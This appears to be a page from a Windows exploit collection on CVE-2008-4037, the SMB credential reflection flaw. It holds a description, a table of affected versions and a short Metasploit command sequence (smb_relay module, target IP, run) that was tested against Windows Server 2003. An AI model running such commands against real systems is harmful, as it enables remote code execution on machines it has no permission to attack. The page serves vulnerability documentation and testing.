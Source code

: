 ### CVE-2008-4037

#### Describe

Microsoft Windows 2000 Gold through SP4, XP Gold through SP3, Server 2003 SP1 and SP2, Vista Gold and SP1, and Server 2008 allows remote SMB servers to execute arbitrary code on a client machine by replaying the NTLM credentials of a client user, as demonstrated by backrush, aka "SMB Credential Reflection Vulnerability." NOTE: some reliable sources report that this vulnerability exists because of an insufficient fix for CVE-2000-0834.


#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows XP          |                  |         | SP2    |                    |
| Windows XP          |                  |         | SP3    |                    |
| Windows Server 2003 |                  |         | SP1    |                    |
| Windows Server 2003 |                  |         | SP2    | &#10004; |
| Windows 2000        |                  |         | SP4    |                    |
| Windows Server 2008 | X64/X86          |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         |        |                    |

#### Utilization

use MSF Test system Windows Server 2003 SP2 x86

```
use exploit/windows/smb/smb_relay
set SMBHOST 192.168.1.14 #目标IP
run
```

![image-20200823142846532](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2008-4037_win2003_x86_msf.png)

